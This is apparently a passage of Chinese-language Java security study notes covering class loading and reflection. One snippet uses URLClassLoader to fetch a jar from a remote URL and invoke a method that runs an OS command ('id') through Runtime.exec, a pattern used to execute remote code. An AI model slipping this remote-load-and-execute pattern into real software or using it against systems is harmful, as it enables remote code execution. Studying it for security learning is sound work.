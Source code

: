 常见的类加载方式：

```java
// reflect
Class.forName("com.sec.classloader.HelloWorld");

// ClassLoader
this.getClass().getClassLoader().loadClass("com.sec.classloader.HelloWorld");
```

反射加载会默认初始化被加载类的静态属性和方法，而`ClassLoader`不会

***

`java.lang.ClassLoader`是所有类加载器的父类，其中一个子类`java.net.URLClassLoader`重载了`findClass`方法，实现了加载远程资源文件

#### URLClassLoader

该类继承了`ClassLoader`，并有加载远程资源的能力

```java
URL url = new URL("https://javaweb.org/tools/cmd.jar");
URLClassLoader ucl = new URLClassLoader(new URL[]{url});
String cmd = "id";

Class cmdClass = ucl.loadClass("CMD");
Process ps = (Process) cmdClass.getMethod("exec", String.class).invoke(null, cmd);
```

远程的cmd.jar：

```java
import java.io.IOException;

public class CMD {
    public static Process exec(String cmd) throws IOException {
    	return Runtime.getRuntime().exec(cmd);
    }
}
```

## Java反射

反射的概念就不赘述了，反射在Java里太常见了，甚至可以说是Java的一个标签

Java反射操作的是`java.lang.Class`对象，通常由以下几种方式获取一个类：

+ `类名.class`
+ `Class.forName("xxx")`
+ `classLoader.loadClass("xxx")`

获取数组类型的Class对象需要使用Java类型的描述符方式：

```java
Class<?> doubleArray = Class.forName("[D"); // 相当于double[].class
Class<?> cStringArray = Class.forName("[[Ljava.lang.String;"); // 相当于String[][].class
```
